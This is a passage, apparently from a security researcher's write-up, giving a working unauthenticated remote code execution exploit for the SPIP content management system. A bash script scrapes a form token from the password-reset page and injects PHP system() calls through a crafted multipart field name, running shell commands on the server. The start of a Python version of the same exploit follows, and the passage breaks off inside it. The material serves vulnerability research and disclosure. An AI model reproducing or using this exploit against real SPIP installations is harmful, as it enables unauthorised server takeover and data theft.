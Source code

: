 ![formulaire_action_args](./img/formulaire_action_args.png)

Any extra steps? Nope! It worked right away! 🍀

## Unauth Spip RCE Final Exploit

As a script, this gives us the following concise exploit:

```bash
echo foo > foo.txt
cmd="id; date"
formulaire_action_args=$(curl -k 'http://127.0.0.1:8000/spip.php?page=spip_pass&lang=fr' | grep -F formulaire_action_args -C 3 | grep -ioP '[0-9a-zA-Z_/=+]{30,}')
echo "formulaire_action_args: $formulaire_action_args"
formulaire_action_args_encoded=$(python3 -c "import sys; from urllib.parse import quote; print(quote(sys.argv[1], safe=str()))" "$formulaire_action_args")
echo "formulaire_action_args_encoded: $formulaire_action_args_encoded"
base_url="http://0.0.0.0:8000/spip.php?page=spip_pass&lang=fr&page=spip_pass&lang=fr"
final_payload="formulaire_action=oubli&formulaire_action_args=$formulaire_action_args_encoded&formulaire_action_sign=&oubli=foo%40foo.foo&nobot=&bigup_retrouver_fichiers=1"
curl -ki -X POST -F "RCE['.system('$cmd').die().'][][ll]=@foo.txt" "$base_url&$final_payload"
```

[rce](./img/spip-rce.png)

Vozec also made a python script for the same bug:

```python
#!/bin/env python3
import argparse
import requests
import re
import io
import readline
from urllib.parse import unquote
from bs4 import BeautifulSoup
from requests_toolbelt.multipart.encoder import MultipartEncoder
import urllib3

urllib3.disable_warnings()


class exploit:
    def __init__(self, args) -> None:
        self.url = args.target
        self.s = requests.session()

    def get_tokens(self):
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:129.0) Gecko/20100101 Firefox/129.0",
            "Accept": "*/*",
            "Accept-Language": "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3",
            "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        }
        url = f"{self.url}/spip.ph%70?pag%65=spip_pass&lang=fr"
        r = requests.Request(
            url=url,
            method="GET",
            headers=headers,
        )
        prep = r.prepare()
        prep.url = url
        r = self.s.send(prep, verify=False).text
        soup = BeautifulSoup(r, "html.parser")
        token = soup.find("input", {"name": "formulaire_action_args"})["value"]
```